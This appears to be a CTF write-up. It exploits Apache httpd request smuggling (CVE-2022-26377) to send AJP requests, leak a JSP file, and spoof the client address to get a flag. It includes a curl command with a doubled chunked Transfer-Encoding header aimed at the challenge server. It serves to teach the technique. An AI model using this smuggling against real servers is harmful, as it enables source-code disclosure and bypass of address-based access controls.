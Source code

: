 # Where are you from?

1. The web server is vulnerable to CVE-2022-26377, which means we can use Request Smuggling to send AJP Requests.
2. Following the writeup in [http://noahblog.360.cn/apache-httpd-ajp-request-smuggling/](http://noahblog.360.cn/apache-httpd-ajp-request-smuggling/), we are able to craft a AJP request that allows us to leak the source code (index.jsp).

```jsp
<%
    String remote_addr = request.getRemoteAddr();
    if (remote_addr.equals("119.29.29.29")){
        String flag = System.getenv("flag");
        out.println(flag);
    }else {
        out.print(remote_addr);
    }
```

3. Then, we craft another request where we set the remote_addr to the fake address, and get the flag.


Exploit script: `gen.py` generates the payload which we can send to the server using the following command:

```
curl -vvv http://43.154.50.108:32512/ctf/ -u "username:password" -H 'Transfer-Encoding: chunked, chunked'  --data-binary @payload2
```
